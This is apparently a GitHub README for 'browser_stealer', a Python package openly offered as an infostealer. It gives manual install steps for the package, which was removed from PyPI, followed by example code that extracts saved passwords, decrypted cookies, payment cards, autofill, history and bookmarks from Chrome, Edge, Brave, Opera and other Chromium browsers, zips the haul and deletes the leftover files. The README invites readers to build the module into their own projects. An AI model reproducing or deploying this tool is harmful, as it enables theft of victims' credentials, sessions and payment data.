 <h1 align="center">Browser Stealer<h1>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v1.2.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer-<version>-py3-none-any.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer-<version>-py3-none-any.whl` and run following command:
- *IMPORTANT* - Do not rename the downloaded file, that might prevent you from installing the module
  
```
pip install browser_stealer-<version>-py3-none-any.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer, os


def MyBrowser():
    browser_stealer.fetch_passwords(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Login Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.decrypt_fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"))
    browser_stealer.fetch_history(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    browser_stealer.fetch_downloads(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    browser_stealer.fetch_bookmarks(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Bookmarks"))
    browser_stealer.fetch_payment(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    browser_stealer.fetch_autofill(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"))

    browser_stealer.Utils().zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.Utils().delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
